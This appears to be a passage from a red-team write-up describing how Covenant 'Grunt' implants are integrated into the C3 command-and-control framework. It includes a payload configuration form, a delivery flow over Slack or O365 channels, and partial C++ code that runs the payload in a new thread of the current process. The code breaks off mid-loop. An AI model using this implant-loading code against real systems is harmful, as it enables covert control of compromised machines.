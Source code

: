 ```c++
				"description": "Jitter"
			},
			{
				"type": "int32",
				"min": 10,
				"defaultValue" : 30,
				"name": "Connect Attempts",
				"description": "Number of attempts to connect to SMB Pipe"
			}
		]
	},
	"commands": []
}
)";
}
```

**Stage 2 - Grunt Execution**

As Covenant is a .NET framework, this process is far more involved than what occurs with CobaltStrike's beacons. For brevity only key points will be described.

First and foremost, when the user submits the form above and a payload is generated, this is eventually passed to the Relay through whatever channel it is communicating over, which in-turn calls the appropriate peripheral's constructor. The flow shown below may describe this best:

1. User submits AddPeripheralGrunt form from a Relay command centre

2. C3 Gateway calls Covenant's `GeneratePayload` method

3. C3 Gateway sends generated payload to the relay over Slack/O365 or whatever channel has been setup

4. Relay calls the constructor defined in Grunt.cpp.

The constructor for a Grunt is slightly complex, essentially we execute the .NET assembly in our own CLR instance running in a seperate thread. Note the `arguments.Read` call below, these are passed in the same order they are presented in the web form.

```c++
MWR::C3::Interfaces::Peripherals::Grunt::Grunt(ByteView arguments)
{

	auto [pipeName, payload, connectAttempts] = arguments.Read<std::string, ByteVector, uint32_t>();
	
	BYTE *x = (BYTE *)payload.data();
	SIZE_T len = payload.size();

	//Setup the arguments to run the .NET assembly in a seperate thread.
	namespace SEH = MWR::WinTools::StructuredExceptionHandling;
	SEH::gruntArgs args;
	args.gruntStager = x;
	args.len = len;
	args.func = RuntimeV4Host;


	// Inject the payload stage into the current process.
	if (!CreateThread(NULL, 0, reinterpret_cast<LPTHREAD_START_ROUTINE>(SEH::SehWrapperCov), &args, 0, nullptr))
		throw std::runtime_error{ OBF("Couldn't run payload: ") + std::to_string(GetLastError()) + OBF(".") };

	std::this_thread::sleep_for(std::chrono::milliseconds{ 30 }); // Give Grunt thread time to start pipe.
	for (int i = 0; i < connectAttempts; i++)
	{
```